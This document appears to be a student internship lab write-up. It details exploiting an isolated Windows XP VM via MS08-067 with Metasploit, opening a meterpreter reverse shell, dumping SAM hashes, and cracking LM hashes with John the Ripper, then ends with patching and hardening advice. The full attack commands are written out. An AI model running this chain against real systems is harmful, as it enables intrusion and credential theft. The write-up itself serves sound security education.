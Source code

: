 # **Task-04: Windows XP Exploitation & Password Hash Cracking**

## **⚠️ Disclaimer: For Educational Purposes Only**

**This report documents a controlled security exercise performed in a strictly isolated, self-contained lab environment.**
*   **All activities were conducted on my own virtual machines, which I own and operate.**
*   **The target operating system (Windows XP) is end-of-life, intentionally vulnerable, and has no connection to any real network, production system, or internet-facing service.**
*   **No actual user data was compromised. The "victim" machine was created solely for this educational demonstration.**

**The purpose of this project is strictly educational and defensive. It aims to:**
*   Understand the process of a complete attack chain from reconnaissance to credential access.
*   Demonstrate the critical dangers of using outdated, unpatched software and weak passwords.
*   Highlight the importance of robust patch management, strong credential policies, and modern security controls.

**Unauthorized testing, exploitation, or access of systems you do not own is illegal and unethical. This knowledge is to be used responsibly for defensive security, penetration testing with explicit permission, and improving organizational security posture.**

---

## **Overview**

This task involved a full penetration testing cycle against a legacy Windows XP system. The objective was to exploit a known vulnerability to gain remote access, extract password hashes from the system's SAM database, and successfully crack them to obtain plaintext credentials. This demonstrates a critical attack vector where initial access leads to credential compromise.

## **Lab Environment**

*   **Attacker Machine:** Kali Linux 2023.4 (Virtual Machine)
    *   **IP Address:** `192.168.x.x`
*   **Target Machine:** Windows XP Professional SP2 (Virtual Machine - **Intentionally vulnerable and isolated**)
    *   **IP Address:** `192.168.x.x`
    *   **Firewall Status:** Disabled (Required for this lab exercise)
*   **Network:** Both VMs connected to a virtual "Host-Only" network, ensuring no external connectivity.

## **Tools Used**

*   **Reconnaissance:** `Nmap`
*   **Exploitation Framework:** `Metasploit Framework (msfconsole)`
*   **Exploit Module:** `exploit/windows/smb/ms08_067_netapi`
*   **Payload:** `windows/meterpreter/reverse_tcp`
*   **Post-Exploitation:** `Meterpreter` (for `hashdump`)
*   **Password Cracking:** `John the Ripper`

---

## **Methodology & Detailed Steps**

### **Step 1: Reconnaissance with Nmap**

The first step was to discover open ports and running services on the target to identify potential entry points.

*   **Command Executed:**
    ```bash
    nmap -sV -p- 192.168.x.x
    ```
*   **Flags Explained:**
    *   `-sV`: Service version detection.
    *   `-p-`: Scan all 65,535 TCP ports.
*   **Finding:** The scan revealed open ports, notably port **445/tcp (microsoft-ds)**, indicating the Server Message Block (SMB) service was running. This is a common vector for exploitation on older Windows systems.

**Screenshot 1: Nmap scan results showing open ports on the Windows XP target.**
![](https://github.com/malaikatariq/MLSA-UET-Internship/blob/main/Cyber-Security/Week-04/assets/NMAP%20scan.png)

---

### **Step 2: Vulnerability Research**

With the SMB service identified, the next step was to find known, public exploits for this service on Windows XP.

*   **Command Executed:**
    ```bash
    searchsploit ms08-067
    ```
*   **Finding:** The `searchsploit` command confirmed the existence of a public exploit for **MS08-067**, a critical remote code execution vulnerability in the Windows Server service.

**Screenshot 2: SearchSploit results showing the MS08-067 exploit module.**
![](https://github.com/malaikatariq/MLSA-UET-Internship/blob/main/Cyber-Security/Week-04/assets/SearchSploit.png)

---

### **Step 3: Gaining Access with Metasploit**

The Metasploit Framework was used to leverage the discovered vulnerability and gain a remote shell on the target.

*   **Commands Executed:**
    ```bash
    msfconsole
    use exploit/windows/smb/ms08_067_netapi
    set RHOSTS 192.168.x.x
    set LHOST 192.168.x.x
    set PAYLOAD windows/meterpreter/reverse_tcp
    exploit
    ```
*   **Result:** The exploit was successful, and a `meterpreter` session was opened, providing a powerful interactive command shell on the Windows XP system.

**Screenshot 3: Successful Metasploit exploitation resulting in a Meterpreter session.**
![](https://github.com/malaikatariq/MLSA-UET-Internship/blob/main/Cyber-Security/Week-04/assets/msfconsole.png)
![](https://github.com/malaikatariq/MLSA-UET-Internship/blob/main/Cyber-Security/Week-04/assets/Metasploit.png)

---

### **Step 4: Post-Exploitation & Hash Dumping**

With system access established, the next goal was to extract password hashes for cracking.

*   **Command Executed from Meterpreter:**
    ```bash
    hashdump
    ```
*   **Result:** The `hashdump` command extracted the LM and NTLM password hashes for all local users from the SAM database. These hashes were saved to a file (`hashes.txt`) on the Kali machine for offline cracking.

**Screenshot 4: Output of the `hashdump` command showing the captured LM and NTLM hashes.**
![](https://github.com/malaikatariq/MLSA-UET-Internship/blob/main/Cyber-Security/Week-04/assets/Hashdump.png)

---

### **Step 5: Password Cracking with John the Ripper**

The final step was to crack the extracted hashes to obtain the plaintext passwords.

*   **Initial Attempt (NTLM):**
    ```bash
    john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
    ```
    *   **Result:** The crack attempt failed. This can happen if the password is not in the wordlist or is strong enough to resist a dictionary attack.

*   **Successful Attempt (LM):**
    ```bash
    john --format=LM --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
    ```
    *   **Result:** **Success!** The LM hash was cracked instantly. This is because the LM hashing algorithm is cryptographically weak and breaks passwords into two 7-character halves, making it highly vulnerable to fast cracking.

**Screenshot 5: John the Ripper successfully cracking the LM hash.**
![](https://github.com/malaikatariq/MLSA-UET-Internship/blob/main/Cyber-Security/Week-04/assets/LM%20Hash.png)

---

## **Key Findings & Security Implications**

1.  **Criticality of Patch Management:** The entire attack was possible due to an **unpatched vulnerability from 2008**. This underscores the non-negotiable importance of a robust and timely patch management policy. MS08-067 has a patch available that completely prevents this exploit.
2.  **Weakness of Legacy Protocols:** The success in cracking the **LM hash** highlights the danger of using outdated cryptographic protocols. Modern Windows systems disable LM hashing by default due to its severe weaknesses. This attack would fail against a modern, properly configured Windows 10/11 system using only NTLMv2 or Kerberos.
3.  **The Attack Chain:** This exercise demonstrates a classic cyber kill chain:
    *   **Reconnaissance** (Nmap Scan)
    *   **Weaponization** (Selecting MS08-067 exploit)
    *   **Delivery & Exploitation** (Metasploit execution)
    *   **Installation** (Meterpreter payload)
    *   **Command & Control** (Reverse TCP connection)
    *   **Actions on Objectives** (Hash dumping and cracking)
4.  **Defense in Depth:** Mitigation requires multiple layers of defense:
    *   **Network Layer:** Firewalls and network segmentation to restrict SMB traffic.
    *   **Host Layer:** Regular patching, disabling unnecessary services (like SMB if not needed), and using modern OS versions.
    *   **Credential Layer:** Enforcing strong, complex passwords that are resistant to dictionary attacks.

## **Conclusion**

This task provided a practical, end-to-end demonstration of a common attack vector targeting legacy systems. By understanding each step—from initial scanning to final password cracking—we can better appreciate the tactics, techniques, and procedures (TTPs) used by adversaries. This knowledge is fundamental for roles in penetration testing, blue team defense, and incident response, as it directly informs how we build, monitor, and defend modern networks against real-world threats.

The key takeaway is that security is a continuous process. Vigilance in patching, system hardening, and user education remains the most effective defense against these types of exploits.
